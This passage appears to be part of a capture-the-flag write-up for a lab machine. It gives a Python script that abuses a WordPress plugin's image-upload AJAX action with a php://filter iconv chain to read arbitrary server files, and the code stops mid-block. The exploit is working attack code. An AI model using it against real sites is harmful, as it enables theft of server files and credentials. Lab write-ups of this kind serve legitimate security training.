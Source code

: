 
But we can always try to get some informations, so i wrote a python script to automate the LFI :

```python
import requests
import os

def upload_file_read(file_path):
    url = "http://blog.bigbang.htb/wp-admin/admin-ajax.php"

    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }

    payload = (
        "action=upload_image_from_url&id=1&url="
        "php://filter/convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|"
        "convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|"
        "convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|"
        "convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|"
        "convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|"
        "convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|"
        "convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|"
        "convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|"
        "convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        f"convert.base64-decode/resource={file_path}&accepted_files=image/gif"
    )

    print(f"[*] Target URL: {url}")
    print(f"[*] Trying to read file: {file_path}")

    response = requests.post(url, headers=headers, data=payload)

    if response.status_code == 200:
        print("[+] Request successful!")
        print("[*] Response:")
        print(response.text)

        try:
            response_data = response.json()
            image_url = response_data.get("response")
            if image_url:
                
                print(f"[*] Downloading image from: {image_url}")
                image_response = requests.get(image_url)
                if image_response.status_code == 200:
                    image_filename = image_url.split("/")[-1]
                    with open(image_filename, "wb") as img_file:
                        img_file.write(image_response.content)
                    print(f"[+] Image downloaded: {image_filename}")

```